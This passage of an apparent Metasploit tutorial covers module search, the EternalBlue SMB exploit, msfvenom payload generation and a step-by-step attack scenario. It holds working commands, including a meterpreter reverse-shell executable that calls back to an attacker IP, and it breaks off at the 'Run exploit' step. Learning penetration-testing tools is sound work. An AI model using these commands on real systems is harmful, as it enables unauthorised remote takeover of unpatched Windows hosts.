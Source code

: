 👉 Example: Searching for SMB exploits
``` bash
search smb
```
👉 Example: Using an exploit
``` bash
use exploit/windows/smb/ms17_010_eternalblue
```
👉 Example: Setting target IP
``` bash
set RHOSTS 192.168.1.10
```


### 3. Tools
Metasploit also provides **standalone tools** for specific tasks.  

| Tool | Purpose |
|------|---------|
| **msfvenom** | Create custom payloads (like malicious .exe, .apk, .elf) |
| **pattern_create** | Helps in exploit development (creates patterns for buffer overflow testing) |
| **pattern_offset** | Finds exact memory offset in buffer overflow attacks |

👉 Example: Generate a Windows reverse shell payload with msfvenom
``` bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.5 LPORT=4444 -f exe > shell.exe
```


## 🔹 Workflow of Metasploit (Step-by-step)
1. **Information Gathering** → Collect data about target  
2. **Scanning** → Find open ports, services, vulnerabilities  
3. **Exploitation** → Use exploit module to attack target  
4. **Payload Execution** → Get shell / meterpreter session  
5. **Post-Exploitation** → Privilege escalation, data extraction  
6. **Reporting / Cleanup**  



## 🔹 Example Scenario (EternalBlue Exploit)

**Start Metasploit**
``` bash
msfconsole
```
**Search exploit**
``` bash
search ms17_010
```
**Use exploit**
``` bash
use exploit/windows/smb/ms17_010_eternalblue
```
**Set target IP**
``` bash
set RHOSTS 192.168.1.20
```
**Set payload**
``` bash
set PAYLOAD windows/meterpreter/reverse_tcp
```
**Set attacker IP**
``` bash
set LHOST 192.168.1.5
```
**Run exploit**
``` bash
```